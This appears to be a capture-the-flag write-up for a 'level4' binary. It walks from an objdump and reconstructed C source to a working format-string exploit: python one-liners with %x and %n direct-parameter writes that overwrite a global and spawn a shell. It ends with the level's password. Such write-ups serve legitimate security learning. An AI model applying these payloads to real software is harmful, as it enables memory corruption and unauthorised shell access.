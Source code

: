 ## level4
Here is the objdump for the level4 application
```
08048444 <p>:
 8048444:       55                      push   ebp
 8048445:       89 e5                   mov    ebp,esp
 8048447:       83 ec 18                sub    esp,0x18
 804844a:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 804844d:       89 04 24                mov    DWORD PTR [esp],eax
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt>
 8048455:       c9                      leave
 8048456:       c3                      ret

08048457 <n>:
 8048457:       55                      push   ebp
 8048458:       89 e5                   mov    ebp,esp
 804845a:       81 ec 18 02 00 00       sub    esp,0x218
 8048460:       a1 04 98 04 08          mov    eax,ds:0x8049804
 8048465:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048469:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 8048477:       89 04 24                mov    DWORD PTR [esp],eax
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt>
 804847f:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 8048485:       89 04 24                mov    DWORD PTR [esp],eax
 8048488:       e8 b7 ff ff ff          call   8048444 <p>
 804848d:       a1 10 98 04 08          mov    eax,ds:0x8049810
 8048492:       3d 44 55 02 01          cmp    eax,0x1025544
 8048497:       75 0c                   jne    80484a5 <n+0x4e>
 8048499:       c7 04 24 90 85 04 08    mov    DWORD PTR [esp],0x8048590
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt>
 80484a5:       c9                      leave
 80484a6:       c3                      ret

080484a7 <main>:
 80484a7:       55                      push   ebp
 80484a8:       89 e5                   mov    ebp,esp
 80484aa:       83 e4 f0                and    esp,0xfffffff0
 80484ad:       e8 a5 ff ff ff          call   8048457 <n>
 80484b2:       c9                      leave
 80484b3:       c3                      ret
 80484b4:       90                      nop
 80484b5:       90                      nop
 80484b6:       90                      nop
 80484b7:       90                      nop
 80484b8:       90                      nop
 80484b9:       90                      nop
 80484ba:       90                      nop
 80484bb:       90                      nop
 80484bc:       90                      nop
 80484bd:       90                      nop
 80484be:       90                      nop
 80484bf:       90                      nop
```

From the objdump, I deduced that the source code looks something like this

```clike=
#include <stdio.h>
#include <stdlib.h>

static int    g_var = 0;

void p(char *buffer)
{    
    printf(buffer);
}

void n()
{
    // 804845a
    char buf[512]; // 0x200
    
    // 804847a
    fgets(buf, 512, stdin);
    
    // 804847a
    p(buf);
    
    if (g_var + 12 != 0x1025544)
        return;
    system("/bin/sh");
    
}
    
int main()
{
    n()
}
```

This is quite similar to level3, there is an unsafe printf and we are tasked to overwrite the data address `0x08049810` to value `0x01025544` or `16930116` in decimal. This value is too large for us to print out manually as fgets only reads up to 512 characters. We will need to fill in the values using several writes.  

According to this example from the book, we are able to write into contigious bytes like so.
![image](https://hackmd.io/_uploads/rJ8GmjFrT.png)

Because of the little endianess, we will first need to reverse the order of the value to `0x44550201`, then, we can map out the values we want to write to which addresses. 

```
0x08049810 - 0x44
0x08049811 - 0x55
0x08049812 - 0x02
0x08049813 - 0x01
```

And we also need to know how much do we need to traverse in the stack to reach those addresses to reach `0x08049810` , so I tested them out and I got 

```
BBBB b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

This shows that i need to format %x 11 times to get to the values of the first argument. Now lets try writing to them in the actual address to verify the ordering. With the input as `python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + '%x ' * 11 + '%n %n'"> /tmp/level4`, we manage to observe the address being written as below, which proves the ordering correct.

![image](https://hackmd.io/_uploads/Skf1jitBT.png)

I believe all of this information is sufficient for us to actually write the values. However, we are not able to use %n for its intented purposes to count bytes, since the minimum characters to reach the address already exceeds `0x44`

Looking at this [blog](https://gbmaster.wordpress.com/2015/12/08/x86-exploitation-101-format-strings-ill-tell-ya-what-to-say/), it shows that printf has something called **direct paremeter access** which allows us to access certain parameters without needing to format them one by one beforehand. Its syntax looks like this - `%7$x` where it means **Access the 7th argument as a hex**. This can help cut down the bytes below the minimum. To apply this change, we can change out input like so ` python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + 'B' * 60 + '%12\$n' + 'B' * 16 + '%13\$n'"> /tmp/level4`

As we can see, we are able to nail the `44` and `55` requirement. However, we cant use the say way to do `02` and `01`, since the values printed by **%n can only increase**.
![image](https://hackmd.io/_uploads/BkRWW2YBp.png)

To circumvent this, we can **"wrap" the two values together** to one. Making out mapping change like so. 
```
0x08049810 - 0x44
0x08049811 - 0x55
0x08049812 - 0x102
```

Which changes the input to - 
`python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + '\x08\x04\x98\x12'[::-1] + 'B' * 56 + '%12\$n' + 'B' * 17 + '%13\$n' + 'B' * 173 + '%14\$n'"> /tmp/level4`

And there we have it, the final value of the global static.
![image](https://hackmd.io/_uploads/HJD-r2YrT.png)

The password was printed on execution.
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`